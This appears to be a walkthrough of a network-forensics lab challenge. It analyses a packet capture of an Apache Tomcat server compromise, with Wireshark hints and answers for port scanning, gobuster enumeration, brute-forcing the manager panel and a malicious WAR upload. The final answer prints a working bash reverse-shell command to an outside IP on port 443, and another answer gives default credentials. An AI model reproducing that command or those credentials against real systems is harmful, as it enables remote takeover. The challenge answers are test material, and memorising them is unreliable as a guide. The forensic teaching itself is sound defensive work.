








**I. Scenario**

- The SOC team has identified suspicious activity on a web server within the company's intranet. To better understand the situation, they have captured network traffic for analysis. The PCAP file may contain evidence of malicious activities that led to the compromise of the Apache Tomcat web server. Your task is to analyze the PCAP file to understand the scope of the attack.

**II. Challenge**

**Q1. Given the suspicious activity detected on the web server, the PCAP file reveals a series of requests across various ports, indicating potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?**
- Have you examined the conversations in the TCP stream?
- In Wireshark, go to **Statistics > Conversations** and select the **TCP** tab. Review the list of conversations for any significant changes in the destination port number.
- Examine the list of conversations for any IP address that initiates requests to the server with significant changes in destination port numbers, especially if they increase sequentially from a lower number (e.g., **15**) to a much higher number (e.g., **6542**). This behavior is suspicious and may indicate a port scanning attempt or reconnaissance by the IP address.
        
    Answer: **14.0.0.120**

**Q2: Based on the identified IP address associated with the attacker, can you identify the country from which the attacker's activities originated?**
- Use online tools or databases to look up <Attacker_IP>. These can help identify if the IP is known for malicious activity or if it belongs to a specific network.
- Refer to this IP address lookup tool: **https://en.ipshu.com/ipv4/<Attacker_IP>**.
        
    Answer: **China**

**Q3: From the PCAP file, multiple open ports were detected as a result of the attacker's active scan. Which of these ports provides access to the web server admin panel?**
- To narrow down the suspicious packets, try filtering by IP address and the protocol typically associated with the web server.
- Use this Wireshark filter: **ip.src == <Attacker_IP> && http**. This filter will show packets within HTTP traffic, commonly used to access the web server. Also, check the destination port used to access the web server’s admin panel in these packets.
        

    Answer: **8080**

**Q4: Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?**
- In Wireshark, locate a packet from the middle of the HTTP traffic showing a **404 status code response**.    Examine the details of the corresponding HTTP request to identify the tool used by the attacker for enumeration.
- Analyze the intervals and trace the HTTP streams of these requests. Pay attention to the User-Agent header, as it may reveal the tool utilized during the enumeration process.
            
    Answer: **gobuster**

**Q5: After the effort to enumerate directories on our web server, the attacker made numerous requests to identify administrative interfaces. Which specific directory related to the admin panel did the attacker uncover?**
- After analyzing the failed attempts with 404 Not Found errors, focus on HTTP requests that return a successful status code. Look for indicators such as a **200 OK response**.
- Examine the sequence of requests leading to the success. A successful directory discovery is often marked by a **200 OK response** following a series of failed attempts.
-  Apply the filter http && http.response.code==200 to isolate successful HTTP requests. Review the corresponding Request URI in the packets to determine the directory accessed, especially if it leads to an admin or manager panel.
            

    Answer: **/manager**

**Q6: After accessing the admin panel, the attacker tried to brute-force the login credentials. Can you determine the correct username and password that the attacker successfully used for login?**
- Basic Authentication headers might reveal credential use. Have you filtered for requests containing this type of authentication?
- Use Wireshark to filter for HTTP requests with Basic Authentication. Look at both the request and response to see if the credentials were accepted.
- Apply the filter http.authbasic in Wireshark to find all requests using Basic Authentication. Cross-reference these with the HTTP response codes. Additionally, search for any references to the 'manager' page, which might be related to **Tomcat**.
            

    Answer: **admin:tomcat**

**Q7: Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?**

- Have you checked for HTTP POST` requests originating from the Attacker's IP address? These could suggest an attempt to upload or transfer data to the server.

- Use the filter **ip.src == <Attacker_IP> && http.request.method == POST** in Wireshark and follow the HTTP stream. Then, examine the filename in the File Data. This will reveal the name of the malicious file that the attacker uploaded.
            

    Answer: **JXQOZY.war**

**Q8: After successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?**
-  Have you looked at the TCP streams for evidence of a reverse shell? Following the stream could reveal the commands executed during the attack.
-  Filter Wireshark traffic using **ip.src == <Attacker_IP> && tcp.flags == 0x012**. Follow the TCP stream of this reverse shell traffic to reveal the commands executed during the session.
            

    Answer: **/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'**